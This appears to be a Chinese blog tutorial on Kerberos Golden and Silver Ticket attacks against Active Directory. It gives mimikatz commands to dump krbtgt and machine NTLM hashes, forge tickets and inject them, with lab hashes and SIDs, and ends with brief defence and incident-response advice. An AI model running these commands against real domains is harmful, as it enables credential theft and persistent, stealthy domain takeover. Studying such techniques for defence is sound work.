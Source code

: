 <https://blog.csdn.net/ZhaoSong_/article/details/133800244>
黄金票据可以伪造域内任意用户，即使这个用户不存在，黑客入侵成功后，记下krbtgt的SID和krbtgt的散列值，即使蓝队修改了管理员密码，红队依然能通过黄金票据畅通无阻。
## **什么是黄金票据与白银票据？**
黄金票据就是伪造了Kerberos协议中的身份票据（TGT)。
黄金票据可以访问该用户身份的所有服务。
白银票据就是伪造了Kerberos协议通信流程中服务票据(SGT)。
白银票据只能访问某一个服务。
使用域管理员身份创建的票据就是黄金票据，可以访问域内的所有服务。
## **kerberos认证流程？**
客户端先去找AS服务进行认证，获取身份票据TGT。
然后拿着TGT票据寻找TGS服务，获取服务票据TS。
拿着服务票据访问具体的服务。

## **Golden ticket&Silver ticket区别**
黄金票据主要是抓krbtgt账号的NTLM hash、白银票据抓的是域控计算机账号的NTLM hash
黄金票据利用需要知道
* 需要伪造的域管理员用户名
* 完整的域名
* 域SID
* krbtgt的NTLM Hash

 白银票据利用需要知道
* 域名
* 域SID
* 目标服务器的FQDN
* 可利用的服务
* 服务账号的NTLM Hash
* 要伪造的用户名



**获取权限不同**
金票：伪造的TGT，可以获取任意Kerberos的访问权限
银票：伪造的ST，只能访问指定的服务，如CIFS

**认证流程不同**
金票：同KDC交互，但不同AS交互
银票：不同KDC交互，直接访问Server

**加密方式不同**
金票：由krbtgt NTLM Hash 加密
银票：由服务账号 NTLM Hash 加密






## **4.1. 黄金票据**

黄金票据原理就是通过伪造krbtgt用户的TGT票据，krbtgt用户是域控中用来管理发放票据的用户，拥有了该用户的权限，就可以伪造系统中的任意用户，同时可以访问目标主机中任何服务。

在Kerberos认证中,Client通过AS(身份认证服务)认证后,AS会给Client一个Logon Session Key和TGT,而Logon Session Key并不会保存在KDC中，krbtgt的NTLM  Hash又是固定的,所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session  Key来进入下一步Client与TGS的交互。而已有了黄金票据后,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修改。

利用条件：获取域控的权限、krbtgt用户的hash值，mimikatz。


### 4.1.1. 操作演示

#### 4.1.1.1. 获取域名与SID

注意这里的SID最后面的4位是不需要的。
```
whoami    ##获取本地账户
net time /domain   ##获取域名
whoami /all      ##获取sid：S-1-5-21-1695257952-3088263962-2055235443
```
#### 4.1.1.2. 获取krbtgt账户NTLM
这里需要使用mimikatz来进行获取。
```
privilege::debug
lsadump::lsa /patch /user:krbtgt   ##558ae7f88589153355cbeb046ac696df
```
#### 4.1.1.3. 伪造用户名
这里的用户名随便伪造一个，我这里伪造成yuto吧。
```
mimikatz kerberos::golden /user:yuto /domain:xiaodi.local /sid:S-1-5-21-1695257952-3088263962-2055235443 /krbtgt:558ae7f88589153355cbeb046ac696df /ticket:pj
```

#### 4.1.1.4. 导入内存
可以看到这里找一台域内主机，将这个票据导入后就能够服务域控了。
```
kerberos::ptt pj
```
### 4.1.2. 总结
黄金票据，为什么说是黄金票据，由于该票据是不受TGT生命周期限制的，默认情况下TGT票据默认是10小时、最多续订7天，而且这个票据可以一直保存，只要KRBTGT账户的密码不被修改，则该票据可以一直访问，同时利用上也简单。

不过黄金票据也属于二次攻击，第一次是为了拿到域控权限而去进行操作，而第二次攻击则是为了再次获取权限来进行的操作，同时黄金票据不单单可以生成krbtgt用户的TGT票据，还可以生成其他用户的，只不过，由于krbtgt用户的密码通常很少会去修改，所以间接性保证了票据的稳定性，如果是其他用户，可能几天改一次就导致票据失效。

## **4.2. 白银票据**
黄金票据伪造的是TGT也就是门票发门票，而白银票据则是伪造ST也就是门票，白银票据的好处是不会经过KDC，从而更加的隐蔽，但是缺点也很明显，那就是只对部分服务起作用，例如：cifs（文件共享服务）、mssql、winrm（Windows远程管理）、DNS等。

利用条件：拿到目标机器的hash，也就是登陆的hash值，这里不一定是DC的，但是我们权限维持，尽量还是去拿DC的权限。

### 4.2.1. 操作演示
#### 4.2.1.1. 获取域名与SID
这里和黄金票据是一样的，就不演示了。
```
whoami
net time /domain
whoami /all
```
#### 4.2.1.2. 获取DC账户NTLM
这里要注意是机器名，不要是administrator的账户。
```
privilege::debug
sekurlsa::logonpasswords  ##f0ff7995e6d3396e869a01e6b465eeaa
```
#### 4.2.1.3. 伪造用户名
这里的用户名随便伪造一个，我这里伪造成yuto吧。

* domain：域名
* sid：域环境下的SID，除去最后-的部分剩下的内容
* target：要访问的服务器，写FQDN
* rc4：写的是目标主机的NTLM（主机名 $ 对应NTLM）
* service：要访问的资源类型
* user：伪造的用户
* cifs：共享文件

其实这里可以看到导入后，确实有票据了，但是利用确实比较麻烦的，这里是将目标服务定位cifs，也就是说只有当目标主机上有cifs服务的时候才能进行利用。

```
kerberos::golden /user:yuto /domain:xiaodi.local /sid:S-1-5-21-1695257952-3088263962-2055235443 /target:DC /service:cifs /rc4:f0ff7995e6d3396e869a01e6b465eeaa /ptt

kerberos::golden /user:xxx用户名 /domain:域名 /sid:域sid /target:目标服务器 /service:目标服务 /rc4:目标服务器的hash  /ptt
```


## **总结**

关于黄金票据与白银票据的简要总结。

黄金票据：是抓取域控中ktbtgt账号的hash，来在client端生成一个TGT票据，那么该票据是针对所有机器的所有服务。
防御：修改ktbtgt账号密码。



白银票据：实际就是在抓取到了域控服务hash的情况下，在client端以一个普通域用户的身份生成TGS票据，并且是针对于某个机器上的某个服务的，生成的白银票据,只能访问指定的target机器中指定的服务。

^
## **应急响应**
如果怀疑系统受到黄金票据或白银票据攻击，应立即采取以下措施：
* **隔离受影响系统**：从网络中隔离任何疑似被攻击的系统。
* **更改密码**：更改所有可能受影响的账户密码，包括`krbtgt`账户密码。
* **更新安全策略**：更新域的安全策略，包括密码复杂性要求和票据生命周期策略。 使用强密码和密码策略。实施账户锁定策略以防止暴力破解

* **进行彻底的系统检查**：使用反病毒软件和入侵检测系统对系统进行全面扫描。
* **分析日志**：审查安全日志以确定攻击的时间和范围。


